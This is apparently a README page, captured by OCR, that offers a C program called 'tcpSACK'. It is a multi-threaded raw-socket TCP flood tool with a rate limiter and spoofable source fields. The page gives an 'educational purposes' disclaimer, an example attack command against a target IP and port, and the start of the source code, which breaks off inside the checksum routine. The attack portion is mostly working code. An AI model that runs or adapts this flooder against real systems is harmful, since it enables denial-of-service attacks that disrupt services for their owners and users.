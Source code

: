 **DISCLAIMER**: this is for purely educational purposes. hacking is **WRONG** and **BAD**.

the script can be fired up in a terminal, and run.

```bash
./tcpSACK <target_ip> <target_port> <num_threads> <attack_duration_seconds> <max_pps>
```

the arguments are self-explanatory. if the attack is to be carried out against `192.168.1.100` on port `80` using 4 threads, running for 60 seconds, and limited to a maximum 1000 pps, the command is as follows.

```bash
./tcpSACK 192.168.1.100 80 4 60 1000
```

the entire code follows...


```c
#include<stdio.h>
#include<string.h>
#include<sys/socket.h>
#include<stdlib.h>
#include<netinet/tcp.h>
#include<arpa/inet.h>
#include<netinet/ip.h>
#include<pthread.h>
#include<unistd.h>
#include<sys/types.h>
#include<stdbool.h>
#include<time.h>

// declare global variables
static unsigned int floodport; // port to send packets to
#define BUFFER_SIZE 100 // buffer size constant
char sourceip[17]; // source IP address buffer
volatile int limiter; // pps (packets per second) limiter
volatile unsigned int pps; // pps count
volatile unsigned sleeptime = 100; // sleep (ms) for each packet if pps limit is exceeded
volatile unsigned int length_packet = 0; // length of packet (can be set for bypassing)

// mutex for thread safety when modifying global variable "pps"
pthread_mutex_t pps_mutex = PTHREAD_MUTEX_INITIALIZER;

// structure for pseudo tcp header used in checksum calculation
struct pseudo_header
{
    u_int32_t source_address;
    u_int32_t dest_address;
    u_int8_t placeholder;
    u_int8_t protocol;
    u_int16_t tcp_length;
    struct tcphdr tcp;
};

// calculate checksum for packet
unsigned short checksum_tcp_packet(unsigned short *ptr,int nbytes) {
    register long sum;
    unsigned short oddbyte;
    register short answer;

    // checksum calculation
    sum=0;
    while(nbytes > 1) {
        sum += *ptr++;
        nbytes -= 2;
    }
```